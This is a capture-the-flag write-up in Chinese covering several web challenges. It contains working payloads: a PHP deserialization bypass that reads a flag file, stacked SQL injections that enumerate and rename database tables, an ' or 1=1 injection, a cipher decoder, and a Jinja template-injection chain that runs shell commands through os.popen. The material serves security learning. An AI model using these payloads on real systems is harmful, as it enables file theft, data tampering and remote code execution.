# Web_php_unserialize



当通过_GET['var']传入序列化数据时，会调用unserialize，触发魔术方法__wakeup和 __destruct。
__destruct方法使用highlight_file(this->file)输出文件内容，若file可控，可读取任意文件。
__wakeup 防御：若file不为index.php，会被重置为index.php。可通过属性个数溢出绕过（序列化时声明的属性个数大于实际个数，__wakeup不会执行）。
正则检测：preg_match('/[oc]:\d+:/i', var)禁止包含o:或c:开头的序列化字符串。可利用NULL 字节截断让正则匹配失败（PHP 中preg_match遇到 NULL 字节会提前终止匹配）。

构造：/index.php?var=?TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==



# supersqli


看一下会输出什么



’1会报错



1';show databases -- #



1';show tables -- #



1';show columns from `1919810931114514` -- #



1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);-- #
1' or 1=1 #



# inget


?id=1' or 1=1 -- #



# web2



对密文进行 str_rot13 还原：由于 str_rot13 是双向变换，再次应用即可还原。
反转字符串：逆转加密时最后一步的 strrev。
Base64 解码：解开加密时的 base64_encode。
字符 ord 减 1：逆转加密时每个字符 ord+1 的操作。
再次反转字符串：逆转加密时第一步的 strrev。

```csharp
import base64
def python_decode(string):
    zimu = "abcdefghijklmnopqrstuvwxyz" 
    rot_13 ="" 
    for i in string: 
        if i.isdigit():
            rot_13 += i
        else:
            try:
                rot_13 += zimu[zimu.index(i)-13] 
            except:
                rot_13 += zimu[zimu.index(i.lower())-13].upper()
    fz = rot_13[::-1]
    base = base64.b64decode(fz)
    base = [chr(ord(i)-1) for i in base]
    fz = base[::-1]
    print "".join(fz)

python_decode("a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws")
```

结果：flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}

# Web_python_template_injection


输入/{{7+7}}，测试存在模板注入


/{{''.__class__}}


/{{''.__class__.__mro__}}


/{{''.__class__.__base__.__base__.__subclasses__()}}



/{{''.__class__.__base__.__base__.__subclasses__()[168]}}


/{{''.__class__.__base__.__base__.__subclasses__()[145].__init__.__globals__.__builtins__['eval']('__import__("os").popen("ls").read()')}}


/{{''.__class__.__base__.__base__.__subclasses__()[145].__init__.__globals__.__builtins__['eval']('__import__("os").popen("cat fl4g").read()')}}


